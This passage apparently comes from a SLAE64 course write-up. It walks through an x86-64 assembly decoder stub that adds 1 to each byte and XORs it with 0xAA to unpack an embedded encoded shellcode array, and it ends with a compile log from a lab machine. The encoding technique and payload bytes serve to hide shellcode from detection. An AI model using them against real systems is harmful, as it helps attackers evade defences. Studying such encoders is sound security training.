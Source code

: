 After that, there is the `decode` procedure. We first add `1` to the value of the `RSI` register, so each byte can be XORed with the key and result to the initial value. Then, the actual `XOR` happens between the new value of the `RSI` register and the static key `0xAA`. The next conditional jump checks if the result from the previous `XOR` operation is `0`, meaning the last byte of the shellcode got decrypted. If so, the shellcode gets executed. Otherwise, `RSI` is incremented by 1 to go to the next byte. Finally, the next byte gets decrypted by a short jump at `decode`.

```nasm
decode:
        add byte [rsi], 0x1     ; add 1 byte
        xor byte [rsi], 0xAA    ; xor the added value with the key to retrieve initial value
        jz Shellcode            ; jump if 0 (when the shellcode is decrypted)
        inc rsi                 ; increment esi to go to next byte

        jmp short decode        ; jump short to decode procedure to continue decrypting
```

The whole `Assembly` program is the following:

```nasm
global _start

section .text
_start:

        jmp short call_decoder  ; jump short to call_decoder procedure

decoder:
        pop rsi                 ; pop memory address pointing at shellcode from the stack

decode:
        add byte [rsi], 0x1     ; add 1 byte
        xor byte [rsi], 0xAA    ; xor the added value with the key to retrieve initial value
        jz Shellcode            ; jump if 0 (when the shellcode is decrypted)
        inc rsi                 ; increment esi to go to next byte

        jmp short decode        ; jump short to decode procedure to continue decrypting

call_decoder:

        call decoder
        Shellcode: db 0xe1,0x9a,0x69,0xf9,0xe1,0x10,0x84,0xc7,0xc2,0xc3,0x84,0x84,0xd8,0xc1,0xf8,0xe1,0x22,0x4c,0xf9,0xe1,0x22,0x47,0xfc,0xe1,0x22,0x4b,0xe1,0x28,0x69,0x90,0xa4,0xae,0xa9
```

## Compilation and Testing 

Now we need to compile `xor-decoder.nasm` with the bash script `compile.sh` and extract the shellcode from the generated executable with the `objdump` one-liner.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/4_Custom_encoder$ ./compile.sh xor-decoder
[+] Assembling with Nasm ... 
[+] Linking ... 
[+] Done!
```
